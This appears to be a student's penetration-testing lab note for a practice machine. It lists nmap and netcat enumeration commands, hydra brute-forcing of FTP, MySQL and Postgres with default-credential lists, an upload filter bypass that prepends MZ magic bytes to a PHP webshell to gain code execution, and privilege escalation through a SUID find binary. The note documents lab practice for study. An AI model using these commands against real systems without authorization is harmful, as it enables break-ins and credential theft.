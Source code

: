 ### Enumeration
```
IP=192.168.165.33
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
- 80
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux $IP
- 445
	- smbclient -N -L //$IP
	- nmap --script smb-vuln* -p135,139,445 $IP
- SQL
	- Mysql
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP
	- Postgres
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt postgres://$IP
- 80
	- Default landing page
		- ![[Pasted image 20240813115609.png]]
	- Upload feature
		- ![[Pasted image 20240813115648.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /backups/
				- backup.zip
				- /var/www/html directory
				- upload.php
					- MagicBytez MZ PEFILE
					- Find magic byte is 4D5A
						- This value is from bin2hex. We use decoded to find it equal MZ
					- Upload php webshell and add MZ to top
					- ![[Pasted image 20240814092524.png]]
					- Get RCE with busybox
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux mzeeav 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- avuser
			- Have some permissions over home
	- netstat -ano
		- Active ports
			- nothing new
	- Directories to check
		- /opt
			- Check GTFO Bins
			- fileS
				- /opt/fileS --help
					- GNU findutils
				- /opt/fileS --version
					- find (GNU findutils) 4.8.0
				- Treat as suid
					- ![[Pasted image 20240814095258.png]]
	- linpeas
		- Possible Exploits
			- dirty pipe
		- Interesting Files
	- pspy64
### Credentials
### Lessons Learned
